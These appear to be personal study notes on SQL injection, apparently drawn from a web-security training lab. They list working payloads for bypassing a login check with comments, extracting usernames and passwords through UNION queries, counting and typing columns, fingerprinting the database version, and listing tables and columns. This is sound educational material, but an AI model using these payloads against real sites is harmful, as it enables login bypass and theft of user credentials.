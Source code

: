 	1. SQLi test

```vulnurableSQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

```vulnurableURL
https://insecure-website.com/products?category=Gift
```

```injection
https://insecure-website.com/products?category=Gifts'--
```

	2. Boolean based

```vulnsql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

```injection
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

why? because the password check removed by comment

	3. Union based SQLi

```vulnSQL
SELECT name, description FROM products WHERE category = 'Gifts'
```

```injection
' UNION SELECT username, password FROM users--
```


to discover the number of collumns use 

```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3--
```


or
`
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

for oracle

```
' UNION SELECT NULL FROM DUAL--
```

then we need to find collumns with useful data types

```
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

get multiple values from a single column

```
' UNION SELECT username || '~' || password FROM users--
```

	4. Examining the database

```
Microsoft, MySQL `SELECT @@version`

Oracle `SELECT * FROM v$version`

PostgreSQL `SELECT version()`
```

u can also use

```
' UNION SELECT @@version--
' union select banner,null from v$version --
```

	5.

listing contents of the database (! doesn't work on Oracle !)

```
SELECT * FROM information_schema.tables
```

![[Pasted image 20220613211405.png]]

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

for Oracle

```
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```